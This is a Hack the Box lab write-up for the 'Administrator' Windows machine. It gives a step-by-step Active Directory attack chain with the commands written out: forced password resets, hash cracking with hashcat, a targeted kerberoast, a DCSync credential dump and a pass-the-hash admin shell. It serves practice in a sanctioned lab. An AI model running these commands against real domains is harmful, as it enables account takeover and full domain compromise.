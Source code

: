 # Administrator

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
2. Given olivia's credentials, run bloodhound to gather AD info
	1. `neo4j console`
	2. `sudo bloodhound`
	3. `sudo bloodhound-python -d administrator.htb -u olivia -p ichliebedich -ns [IP] -c all`
3. load bloodhound info
4. bloodhound finds that olivia has GenericAll privs over michael

![image](https://github.com/user-attachments/assets/465491ec-fada-4fb5-93a8-c87657433cbe)

5. change michael's password
	1. ```net rpc password "michael" -U "administrator.htb"/"olivia" -S "[IP]"```
	2. type new password

![image](https://github.com/user-attachments/assets/2b513753-0287-4187-87ad-8c5822921a5b)

6. michael has ForceChangePassword permission over benjamin

![image](https://github.com/user-attachments/assets/908af74c-ab83-4ecd-841c-7a0a2424dda1)

7. change benjamin's password 
	```net rpc password "benjamin" -U "administrator.htb"/"michael" -S "[IP]"```

![image](https://github.com/user-attachments/assets/075d1086-566b-4d1a-aaa8-3410f46b5664)

8. benjamin can login to ftp, get Backup.psafe3 file

![image](https://github.com/user-attachments/assets/4788173f-4ac8-4391-ae25-0f660d10286f)

9. use hashcat to crack password on psafe3
	```hashcat -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt```

10. reveals password for psafe3 file is `tekieromucho`
11. opening the psafe3 file reveals 3 credentials:
	1. alexander
	2. emily
	3. emma
12. bloodhound shows the emily has GenericWrite privs over ethan

![image](https://github.com/user-attachments/assets/efa95615-b1f6-49df-9c9f-52138705e2c6)

13. before doing kerberoast attack, need to fix clock skew
	1. On actual machine, not VM, go to cmd and cd into this folder `C:\Program Files\Oracle\VirtualBox`
	2. run this command `VBoxManage setextradata "VM name" "VBoxInternal/Devices/VMMDev/0/Config/GetHostTimeDisabled" 1`
	3. then, on Kali VM, run `sudo rdate -n [IP]`
14. now can do a targeted kerberoast attack on ethan using emily's credentials
	```targetedKerberoast.py --dc-ip [IP] -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb```

![image](https://github.com/user-attachments/assets/457a3b7e-2e71-48e6-8d52-8c4f11422798)

15. this reveals ethan's password is `limpbizkit`

![image](https://github.com/user-attachments/assets/fbdf1e5a-0096-4f89-a890-97fc07a89c1b)

16. ethan has DCSync permission over Administrator.htb. This means ethan is local admin so can do secretdump
	```secretsdump.py administrator.htb/ethan:limpbizkit@[IP]```

![image](https://github.com/user-attachments/assets/fdfcde64-d5a7-40ad-9af6-b515e73e8769)

![image](https://github.com/user-attachments/assets/2967cec7-9da7-4d2f-8dec-c0916ff50ca5)

17. this gives us Administrator hash so can do PtH with evil-winrm 
	1. `evil-winrm -i [IP] -u administrator -H [HASH]`

![image](https://github.com/user-attachments/assets/27ddb48f-62ec-49d8-9ba0-a104cd4df325)

18. gives us admin shell and rooted!
